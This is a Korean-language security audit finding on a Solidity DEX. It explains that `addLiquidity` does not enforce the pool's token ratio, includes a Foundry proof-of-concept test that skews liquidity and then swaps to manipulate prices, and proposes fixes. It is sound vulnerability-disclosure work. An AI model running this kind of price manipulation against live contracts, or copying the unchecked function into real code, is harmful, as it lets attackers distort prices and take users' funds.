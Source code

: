 ## medium - 토큰 유동성 풀의 AMM이 손상되어 비정상적인 가격 변동이 발생할 수 있습니다.

### 설명

./src/Dex.sol: 30-59

addLiquidity(uint amountX, uint amountY, uint minLP) external returns (uint lpTokens)

```solidity
function addLiquidity(uint amountX, uint amountY, uint minLP) external returns (uint lpTokens) {
      require(amountX > 0 && amountY > 0, "Invalid amounts");
      require(amountX <= tokenX.allowance(msg.sender, address(this)) &&
       amountY <= tokenY.allowance(msg.sender, address(this)), "ERC20: insufficient allowance");
      require(amountX <= tokenX.balanceOf(msg.sender) &&
       amountY <= tokenY.balanceOf(msg.sender), "ERC20: transfer amount exceeds balance");

      if (totalLiquidity == 0) {
          lpTokens = _sqrt(amountX * amountY);
      } else {
          uint poolX = tokenX.balanceOf(address(this));
          uint poolY = tokenY.balanceOf(address(this));

          uint lpTokenX = (amountX * totalSupply()) / poolX;
          uint lpTokenY = (amountY * totalSupply()) / poolY;

          lpTokens = lpTokenX < lpTokenY ? lpTokenX : lpTokenY;
      }
```

`addLiquidity` 함수에서 인자로 들어온 amountX, amountY의 값이 실제 유동성 풀의 토큰 비율과 일치하는지에 대한 검사가 존재하지 않습니다. 

이에 따라 amountX, amountY만큼의 토큰이 모두 유동성 풀에 추가되어 유동성 풀 내의 토큰 비율이 손상될 수 있습니다.

### 파급력

Medium - 유동성 공급 비율에 대한 검사가 이루어지지 않아, 공격자가 임의로 토큰 비율을 조정할 수 있습니다.

```solidity
contract DexScript is Test {
    Dex public dex;
    IERC20 tokenX;
    IERC20 tokenY;

    function setUp() public {
        tokenX = new CustomERC20("X");
        tokenY = new CustomERC20("Y");
        dex = new Dex(address(tokenX), address(tokenY));
        tokenX.approve(address(dex), type(uint256).max);
        tokenY.approve(address(dex), type(uint256).max);

        dex.addLiquidity(800 ether, 700 ether, 0);
    }

    function test_exploit() public {
        
        uint LPReturn1 = dex.addLiquidity(8 ether, 7 ether, 0);
        console.log("LPReturn1: ", LPReturn1);

        uint swap1 = dex.swap(0, 100 ether, 0);
        console.log("swap1: ", swap1);

        
    }

    function test_exploit2() public {
        uint LPReturn2 = dex.addLiquidity(10000 ether, 1, 0);
        console.log("LPReturn2: ", LPReturn2);

        uint swap2 = dex.swap(0, 100 ether, 0);
        console.log("swap2: ", swap2);
    }
}
```

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/dcc66554-0f51-432b-b52f-51edb25200cb/ec12c0d9-35dc-4683-80e5-30f0cdb65145/image.png)

1. 특정 토큰의 유동성 비율을 매우 높거나 낮게 공급하여 토큰의 가격을 조정할 수 있습니다.

### 해결 방안

1. addLiquidity 함수의 인자가 아닌 실제로 추가되어야할 토큰의 양을 현재 유동성 풀의 비율에 대해 계산하여 transfer하는 방법을 사용할 수 있습니다.
    1. amountX, amountY 중 실제로 유동성 풀에 추가될 수 있는 양을 계산 → aX, aY
    2. 아래와 같이, 계산된 토큰의 양을 transferFrom
    `tokenX.transferFrom(msg.sender, address(this), aX);`
    `tokenY.transferFrom(msg.sender, address(this), aY);`
2. reserve 양을 변수로 사용하고, skim 함수를 implement하여 필요한 경우 유동성 풀의 비율을 맞춰줄 수 있습니다.
    
    ```solidity
    function skim(address to) external lock {
            address _token0 = token0; // gas savings
            address _token1 = token1; // gas savings
            _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
            _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
        }
    ```
